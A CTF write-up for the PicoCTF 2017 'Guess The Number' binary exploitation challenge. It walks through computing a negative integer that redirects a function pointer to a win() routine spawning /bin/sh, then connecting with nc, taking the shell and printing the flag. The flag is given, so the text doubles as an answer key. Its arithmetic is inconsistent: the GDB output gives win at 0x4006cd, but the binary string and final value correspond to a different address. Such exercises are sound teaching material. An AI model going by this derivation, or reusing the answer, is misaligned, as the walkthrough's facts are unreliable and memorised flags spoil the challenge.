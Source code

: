 # PicoCTF_2017: Guess The Number

**Category:** Binary Exploitation
**Points:** 75
**Description:**

>Just a simple number-guessing game. How hard could it be? [Binary](guess_num) [Source](guess_num.c). Connect on shell2017.picoctf.com:57641.

**Hint:**

>What is the program doing with your input number?
strtol checks for overflow, but it does allow negative numbers...

## Write-up
This challenge tests your knowledge on two's complement, bit-shifting and GDB magick. First, let's look at the source code. We really want to `win()`.

    void win(void) {
        printf("Congratulations! Have a shell:\n");
        system("/bin/sh -i");
    }

GDB time!

    $ gdb guess_num
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    Copyright (C) 2014 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from guess_num...(no debugging symbols found)...done.
    (gdb) info address win
    Symbol "win" is at 0x4006cd in a file compiled without debugging.

Converting `0x4006cd` to hexadecimal gives us `4196045` or `1000000001001000010100101011`. We need to be able to call upon `((void (*)(void))val)();` to `win()` it, so now we have to figure out how to make `val` point to `win()`.

    val = strtol(buf, NULL, 10);
    printf("You entered %d. Let's see if it was right...\n", val);
    val >>= 4;

We see that `val` gets checked for overflow, and then bit shifted right 4 places. So let's do the same for our pointer, by shifting left 4 places.

    1000000001001000010100101011
    10000000010010000101001010110000 <- add 4 0s

However, now the binary is too large to enter into the system! But wait! We have two's complement and negative numbers to help us!

    10000000010010000101001010110000
    -2142743888

    $ nc shell2017.picoctf.com 57641
    Welcome to the number guessing game!
    I'm thinking of a number. Can you guess it?
    Guess right and you get a shell!
    Enter your number: -2142743888
    You entered -2142743888. Let's see if it was right...
    Congratulations! Have a shell:
    /bin/sh: 0: can't access tty; job control turned off
    $ ls
    flag.txt
    guess_num
    xinetd_wrapper.sh
    $ cat flag.txt
    c2bda0bde530c16fff8a8530addb44f8

Therefore, the flag is `c2bda0bde530c16fff8a8530addb44f8`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzMzIxMTAzNTldfQ==
-->